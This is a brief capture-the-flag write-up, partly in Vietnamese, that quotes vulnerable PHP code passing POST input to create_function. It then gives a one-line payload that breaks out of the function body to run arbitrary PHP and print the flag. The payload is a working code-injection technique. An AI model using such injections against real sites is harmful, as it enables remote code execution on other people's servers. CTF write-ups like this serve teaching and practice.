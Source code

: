 # Solution

```php
if (isset ($_POST['c']) && !empty ($_POST['c'])) {
    $fun = create_function('$flag', $_POST['c']);
    print($success);
    //fun($flag);
    if (isset($_POST['q']) && $_POST['q'] == 'checked') {
        die();
    }
}
```

Sau một hồi test thì mình nhận ra có thể chèn php code thực tiếp vào luôn

Payload:

`} var_dump($flag);//`